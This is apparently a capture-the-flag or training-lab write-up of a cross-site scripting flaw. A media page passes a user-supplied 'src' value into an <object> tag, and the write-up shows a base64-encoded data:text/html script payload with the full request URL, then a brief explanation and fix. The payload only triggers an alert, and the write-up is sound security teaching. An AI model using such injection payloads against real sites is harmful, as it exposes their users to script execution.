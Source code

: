# 12 - XSS Image

## Reproduce

While browsing the website we saw that just one on the images is clickable (NSA image), and it redirect us to:  `http://{IP}/index.php?page=media&src=nsa`

We inspected the HTML page and found that the image is displayed as follow:

`
<object data="http://192.168.1.19/images/nsa_prism.jpg"></object>
`

They used `<object>` instead of `<img>` and the url is the data,
so here we knew that we can use the XSS to execute an unwanted script, following this steps:

- Convert the unwanted script to base64 (passing it in encoded base64 is the best way):

`<script>alert('hacked')</script>` ==> `PHNjcmlwdD5hbGVydCgnaGFja2VkJyk8L3NjcmlwdD4=`

- Then we sent the request:

`http://{IP}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnaGFja2VkJyk8L3NjcmlwdD4=`


## Explaination of vurnability

XSS: Cross Site Scripting, allows an attacker to execute arbitrary JavaScript within the browser of a victim user.


## Fix 

- Filter input on arrival. At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
